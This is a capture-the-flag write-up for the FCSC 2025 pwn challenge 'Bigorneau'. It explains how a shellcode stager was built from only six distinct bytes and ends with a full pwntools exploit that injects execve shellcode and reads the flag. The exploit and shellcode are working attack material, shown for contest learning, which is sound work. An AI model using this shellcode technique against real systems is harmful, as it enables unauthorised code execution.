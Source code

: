 +++
title = "FCSC 2025 | Bigorneau"
+++
# [Pwn] Bigorneau |  FCSC 2025 

* [1. Checksec](#checksecs)
* [2. Writeup](#writeup)
* [3. Full exploit](#full-exploit)

## Checksecs
```
[*] '/home/botman/Documents/challenges/FCSC/bigorneau/bigorneau'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

## TL;DR
Constraints: 6 different bytes

Solution:
- Simple read shellcode into the stack
- Use only push/pop instructions to fill `rsi`/`rdx`
- Fill `rdx` using bytes already present in the shellcode

## Writeup

This challenge was fairly easy. The only constraint for our shellcode was to use **only 6 different bytes**. Instead of using a classical `execve` shellcode, I developed a simple shellcode with a `read` syscall that allowed me to write onto the stack and then execute the real `execve` shellcode.

I started with a "normal" shellcode, which looked like this:
```asm
push rsp
mov rsi, rsp
mov rdx, shellcode_len
syscall
```

> <span style="color: #82aaff;">** NOTES**</span>
>
> As you can see, I only set `rsi` and `rdx`, as `rax` was already `0x0` ([read syscall](https://x64.syscall.sh/)) thanks to the preface added by `bigorneau.py`.

Since the objective was to use as few different bytes as possible, I removed all the `mov` instructions (which have large opcodes) and replaced them with `push`/`pop` instructions:
```asm
push rsp
push rsp
pop rsi
push shellcode_len
pop rdx
syscall
```

<div style="page-break-after: always;"></div>

At this point, it was almost done. The only problem was the `shellcode_len` value. I replaced it with values already present in the shellcode to avoid introducing new bytes, obtaining:
```asm
push rsp
push rsp
pop rsi
push 0x0f050f05
pop rdx
syscall
```

> <span style="color: #82aaff;">** NOTES**</span>
>
> If I had pushed `0x100` onto the stack, the shellcode would have looked like `0x54545e68000100005a0f05`, introducing two extra bytes `0x0` and `0x1`. By reusing the existing `0xf` and `0x5` bytes, I wrote `push 0x0f050f05`, resulting in the shellcode `0x54545e68050f050f5a0f05`.

Finally, I wrote a small script to send the first-stage shellcode followed by the real `execve` shellcode with a little padding to reach `rip` and boom, pwned:

## Full exploit
```python
from pwn import *

CHALL = "bigorneau.py"

def exploit(io, elf):
    context.update(arch='x86_64')
    shellcode = '''
    push rsp
    push rsp
    pop rsi
    push 0x0f050f05
    pop rdx
    syscall
    '''
    shellcode = bytes(asm(shellcode))

    io.info('shellcode: ' + hex(int.from_bytes(shellcode)))
    io.info('set: %s : %i' % (', '.join([hex(i) for i in set(shellcode)]), len(set(shellcode))))

    io.sendlineafter(b':\n', hex(int.from_bytes(shellcode))[2:].encode())
    io.sendline(b'A'*104 + bytes(asm(shellcraft.sh())))
    io.sendline(b'cat flag.txt')
    flag = io.recvline().decode()
    return flag
```

[download here](/exploits/bigorneau.py)

**Written by *0xB0tm4n***
